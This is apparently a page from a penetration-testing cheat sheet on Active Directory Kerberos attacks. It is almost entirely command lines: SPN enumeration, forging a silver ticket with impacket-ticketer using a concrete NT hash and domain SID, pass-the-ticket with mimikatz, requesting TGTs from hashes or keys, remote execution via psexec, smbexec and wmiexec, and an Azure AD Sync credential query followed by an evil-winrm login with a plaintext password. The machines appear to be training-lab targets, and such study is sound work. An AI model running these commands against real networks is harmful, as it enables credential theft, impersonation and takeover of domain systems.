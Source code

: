 ```
Get SPN:
Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames
or
Import-Module .\PowerView.ps1
setspn -L svc_mssql

Exploiting silver ticket:
impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn doesnotmatter/dc.sequel.htb -user-id 500 Administrator
# To generate the TGS with AES key
impacket-ticketer -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn> -user-id 500 Administrator

export KRB5CCNAME=/home/kali/Desktop/Administrator.ccache

Klist to view kerberos tickets

/etc/hosts:
192.168.227.21  sequel.htb dc.sequel.htb

#Always remember to sync the kdc time
impacket-mssqlclient -k dc.sequel.htb
```
#### Pass The Hash/Pass The Key
>In this attack, an attacker intercepts and steals a valid ticket-granting ticket (TGT) or service ticket (TGS) from a compromised user or service account.

>The attacker then "passes" this stolen ticket to authenticate themselves as the compromised user or service without needing to know the account's password.
```
sekurlsa::tickets /export (export all kirbi files)
kerberos::ptt [0;3e7]-0-0-40a00000-ted@krbtgt-web01.exam.com-exam.com.kirbi (load into memory)
```
```
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
impacket-getTGT -dc-ip 10.10.11.60 frizz.htb/M.SchoolBus:'!suBcig@MehTed!R'
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

edit /etc/krb5.conf

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

# To convert tickets between Linux/Windows format with ticket_converter.py:
impacket-ticket_converter ticket.kirbi ticket.ccache
impacket-ticket_converter ticket.ccache ticket.kirbi
```
#### Privilege Escalation via azure ad sync
```
Windows: sqlcmd -S MONTEVERDE -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration"

evil-winrm -i 10.10.10.172 -u mhope -p "4n0therD4y@n0th3r$" -s .
```